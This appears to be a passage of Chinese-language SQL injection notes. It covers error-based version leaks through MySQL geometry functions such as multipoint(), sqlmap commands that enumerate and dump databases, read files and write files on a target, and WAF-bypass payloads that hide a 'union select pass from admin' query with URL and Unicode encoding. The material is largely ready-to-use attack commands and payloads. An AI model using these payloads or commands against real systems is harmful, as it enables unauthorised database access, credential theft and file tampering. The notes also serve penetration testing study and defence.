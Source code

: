 几何函数：`geometrycollection()`，`multipoint()`，`polygon()`，`multipolygon()`，`linestring()`，`multilinestring()`:

```sql

-- 5.5.47
select multipoint((select * from (select * from (select version())a)b));
ERROR 1367 (22007): Illegal non geometric '(select `b`.`version()` from ((select '5.5.47' AS `version()` from dual) `b`))' value found during parsing
-- 5.7.17
select multipoint((select * from (select * from (select version())a)b));
-- ERROR 1367 (22007): Illegal non geometric '(select `a`.`version()` from ((select version() AS `version()`) `a`))' value found during parsing
```

### sqlmap

`-dbs -v 0 -dbs`, 根据不同的数据库管理平台探测包含的数据库名称  
`-D dvwa --tables` 根据数据库 dvwa 查找表名  
`-D dvwa --tables -T users --columns` 查找 dvwa 数据库中的 users 表中的字段列表  
`-D dvwa --tables -T users --columns --dump` 字段内容

#### post 注入

```bash
sqlmap -u http://xxx.asp --data"id=114" --level 3
```

#### cookie 注入

```bash
sqlmap -u http://xxx.asp --cookie "id=114" --level 2
```

- `--tables` 爆表
- `-T 表名 --columns` 爆字段
- `-T 表名 -C 字段名 -C" "` --dump
- `--file-read 文件` 读取文件
- `--file-write 本地文件 --file-dest 目标目录`写入文件

## waf 绕过

1. url 编码

```
?id=1 union select pass from admin limit 1
?id=1%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%70%61%73%73%20%66%72%6f%6d%20%61%64%6d%69%6e%20%6c%69%6d%69%74%20%31
```

2. Unicode 编码

```
'e' => '%u0065', //这是他的Unicode 编码
?id=1 union select pass from admin limit 1
?id=1 un%u0069on sel%u0065ct pass f%u0072om admin li%u006dit 1
```
